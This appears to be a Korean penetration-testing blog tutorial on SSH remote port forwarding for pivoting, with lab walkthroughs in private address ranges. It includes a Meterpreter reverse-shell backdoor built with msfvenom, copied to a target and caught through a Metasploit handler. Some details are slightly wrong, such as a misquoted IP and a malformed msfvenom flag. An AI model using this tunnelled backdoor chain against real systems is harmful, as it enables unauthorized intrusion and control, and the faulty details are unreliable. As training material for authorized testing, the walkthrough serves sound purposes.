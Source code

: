 ```yaml
---
title:  "Remote Port Forwarding"
excerpt: "Remote Port Forwarding에 대해 알아보자."

categories: pnt
tags:
  - [pivoting, tunneling, penetrate, penetration, 'post-exploit', 'port fowarding', network]

typora-root-url: ../../
 
date: 2025-09-02
last_modified_at: 2025-09-02

---
```


# Remote Port Fowarding

## 개요
리모트 포트 포워딩(Remote Port Forwarding)은 로컬 포트 포워딩의 반대 개념으로 원격 서버에서 포트 수신을 열어 외부에서 내부 네트워크 서비스에 접근할 수 있게 하는 SSH 기반 터널링 기술이다.

주로 리모트(원격) 호스트에 들어오는 트래픽을 현재 공격자의 호스트의 서비스로 전단할 때 주로 사용된다.

리모트 포트 포워딩(Remote Port Forwarding)과 리버스 포트 포워딩(Reverse Port Forwarding)은 본질적으로 같은 개념을 가리키는 용어이다.

## 리모트 포트 포워딩 예시
로컬 포트 포워딩은 대상 호스트의 방화벽이나 보안 정책을 우회하기 위해 사용했다.

리모트 포트 포워딩은 `대상 호스트 -> 공격자 호스트`로 접근 하려고 할 때 이를 제지하는 네트워크 경계를 우회하기 위해 사용된다.

- 명령어 예시:

```bash
ssh -R [원격의 IP:PORT]:[목표 서버 IP:PORT] [SSH 서버 주소]

ssh -R 8000:192.168.0.10:80 vps.example.com
```
위 명령은 vps.example.com의 8000번 포트로 들어오는 요청을 192.168.10.80 으로 전달시킨다.


## 사용하는 상황
- 리버스쉘 / 에이전트 콜백
- 공격자 호스트로부터 파일 다운로드를 하기 위해
- 내부망에 서비스가 있지만 외부에서 직접 접근할 수 없는 경우(방화벽, NAT 등).
- 모의해킹 중 피벗팅, 우회 공격에 활용: 이미 침투한 시스템의 내부 서비스를 외부 협력자에게 노출할 때.
- 사내 PC, 개발 서버에 워크스페이스, 웹 서버, DB 등 테스트용 자원 접근 시 활용.
- 제한된 네트워크 환경에서 SSH 터널을 통해 외부 접근 루트 개방.


## 예시 1: 원격 호스트에서 echo 메시지 보내기
피벗 호스트: 10.1.10.10/10.1.20.10 (DMZ/IT) | SSH/22		, 대상 호스트: 10.1.20.50 | SSH/22


#### 1. 리모트 포트 포워딩: SSH Tunneling 설정
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ ssh -R 10.1.20.10:4444:10.8.0.37:1234 ansible@10.1.10.10 
[ . . . ]

# netstat 으로 Port 상태 확인하기
ansible@web-10-1-10-10:~$ netstat -tula 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN    

#10.1.20.50로 ssh
ansible@web-10-1-10-10:~$ ssh ansible@10.1.20.50

```

#### 2. 공격 호스트에서 리스너 생성
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ nc -l -p 1234
```

#### 3. 대상 호스트에서 `echo 'hi'` 피벗 호스트(10.1.20.10) 포트 4444로 전송
```bash
ansible@ip-10-1-20-50:~$ echo "hi" | nc 10.1.20.10 4444
```

#### 4. 공격 호스트에서 메시지 확인
```bash
# 피벗 호스트에 설정된 리모트 포트 포워딩으로 포트 4444로 받는 트래픽을 포트 1234로 전달됨. hi가 나오면 성공
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ nc -l -p 1234
hi
```


## 예시 2: 피벗 호스트과 리모트 포트 포워딩을 통한 리버스 쉘
피벗 호스트: 10.1.10.10/10.1.20.10 (DMZ/IT) | SSH/22		, 대상 호스트: 10.1.20.50 | SSH/22

익스플로잇은 "이미 성공했다고 가정하고(Assumed Breach)", 마지막 단계에서 리버스 쉘을 피벗 호스트로 콜백 시킨 뒤, 리모트 포트 포워딩을 통해 공격자 칼리 리눅스로 받아내는 실습

#### 1. msfvenom - create payload 
리버스쉘이 콜백할 도착 주소는 피벗 호스트(10.1.10.10/10.1.20.10)의 포트 4444이다. 대상 호스트(10.1.20.50)는 피벗 호스트와 10.1.20.0/24 네트워크 안에서 통신이 가능할거기 때문에, 도착 아이피주소는 10.1.20.10으로 지정한다.
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.1.20.10 LPORT=4444 -f elf -p namgi_backdoor
```

#### 2. 대상 서버로 페이로드 전송
먼저 backdoor 페이로드를 scp 명령어를 사용해 공격자 호스트에서 피벗 호스트(10.1.10.10/10.1.20.10)로 복사한다.
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ scp namgi_backdoor ansible@10.1.10.10:/home/ansible
```

그 후, 피벗 호스트 10.1.10.10에 SSH 로그인 후 , 해당 backdoor 페이로드를 다시 대상 호스트(10.1.20.50)로 복사한다.
```bash
ansible@web-10-1-10-10:~$ scp namgi_backdoor ansible@10.1.20.50:/home/ansible
```

#### 3. 리모트 포트 포워딩: SSH Tunneling
피벗 호스트의 포트 4444로 들어오는 모든 트래픽을 공격자 호스트로 전달되게 포트 포워딩 설정
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ ssh -R 10.1.20.10:4444:0.0.0.0:1234 ansible@10.1.10.10
```

#### 4. multi handler 리스너 생성
리버스 쉘의 콜백을 받고 연결할 핸들러를 공격자 호스트에서 실행시켜준다. 리모트 포트 포워딩이 완료되면 공격자 호스트의 `0.0.0.0:1234`에 트래픽이 도착하니 설정에 참고해서 작성해준다.
```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:1234
```

#### 5. 대상 호스트에서 `backdoor` 페이로드 실행
```bash
ansible@ip-10-1-20-50:~$ ./namgi_backdoor
```

#### 6. Metasploit Listener 확인
```bash
msf6 exploit(multi/handler) > run    
                                           
[*] Started reverse TCP handler on 0.0.0.0:1234 
[*] Sending stage (3045380 bytes) to 127.0.0.1
[*] Meterpreter session 5 opened (127.0.0.1:1234 -> 127.0.0.1:55454) at 2025-09-02 13:42:25 -0400

meterpreter > ipconfig
Interface  2
============
Name         : ens5
[ . . . ] 
IPv4 Address : 10.1.20.50
```

#### 7. 리모트 포트 포워딩 확인
```bash
# 리모트 포트 포워딩 설정 성공!
debug1: Remote connections from 10.1.20.10:4444 forwarded to local address 0.0.0.0:1234
[ . . . ]

# 리버스쉘 콜백 이후 - 포워딩 시작... 10.1.20.10:4444 --> (칼리 리눅스) 0.0.0.0:1234
debug1: remote forward success for: listen 10.1.20.10:4444, connect 0.0.0.0:1234
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 10.1.20.10 port 4444, originator 10.1.20.50 port 32914
debug1: connect_next: start for host 0.0.0.0 ([0.0.0.0]:1234)
debug1: connect_next: connect host 0.0.0.0 ([0.0.0.0]:1234) in progress, fd=4
debug1: channel 0: new forwarded-tcpip [10.1.20.50] (inactive timeout: 0)
debug1: confirm forwarded-tcpip

# 포워딩 성공, 0.0.0.0:1234로 트래픽 전달 완료. 
debug1: channel 0: connected to 0.0.0.0 port 1234
```





